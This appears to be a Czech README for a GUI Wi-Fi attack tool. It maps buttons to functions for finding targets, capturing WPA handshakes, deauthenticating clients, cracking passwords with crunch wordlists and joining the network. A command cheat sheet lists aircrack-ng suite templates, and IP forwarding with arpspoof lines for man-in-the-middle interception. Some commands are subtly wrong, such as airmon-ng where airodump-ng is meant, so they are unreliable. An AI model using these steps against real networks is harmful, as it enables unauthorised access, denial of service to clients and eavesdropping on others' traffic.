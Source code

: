# T1 - Vyhledání cílů

## Hledání Wifi rozhraní
| Tlačítko              | Funkce               |
| ----------------------|----------------------|
| Najdi Wi-fi rozhraní  | find_wifi_interfaces |


## Přepnutí rozhraní do monitorovacího módu
| Tlačítko                  | Funkce                |
| ----------------------    |-------------------    |
| Spusit monitorovací mód   | start_monitor_mode    |
| Zastavit monitorovací mód | stop_monitor_mode     |

## Záchyt komunikace v okolí

| Tlačítko          | Funkce                |
| ------------------|-------------------    |
| Spusit airmon-ng  | start_airodump_full   |
| Zastavit airmon-ng| stop_airodump_full    |


---
# T2 - Záchyt handshaku

## Záchyt handshaku
| Tlačítko          | Funkce                |
| ------------------|-------------------    |
| Spustit           | start_airodump_target |
| Zastavit          | stop_airodump_target  |

## Deauthenifikace cílového klienta
| Tlačítko          | Funkce                    |
| ------------------|-------------------        |
| Spustit           | start_deauthentification  |
| Zastavit          | stop_deauthentification   |

# T3 - Prolomení hesla

| Tlačítko              | Funkce                |
| ------------------    |-------------------    |
| Vytvořit              | create_wordlist       |
| Načíst                | openfile              |
| Prolomit heslo        | crack_password        |
| Připojit se k síti    | connect_to_network    |


======
iwconfig
ifconfig *interface* down
ifconfig *interface* up
service NetworkManager restart

airmon-ng check kill
airmon-ng start *interface*
airmon-ng stop *interface*

airmon-ng *interface* -w *output_file* --output-format csv
airodump -c*channel* -d *AP* -w *output_file* *interface*

aireplay-ng --deauth 0 -D -c *CLIENT* -a *AP* *interface*

tshark -r *input_file* -n -Y "eapol"

crunch *min* *max* *chars* -o *output_file*
aircrack-ng *input_file* -W *wordlist* -l *output_password*

nmcli wifi connect *net_name* password *password* ifname *interface*
===
sysctl net.ipv4.ip_forward=1
arpspoof -i *interface* -t *CLIENT* *AP*
arpspoof -i *interface* -t *AP* *CLIENT*

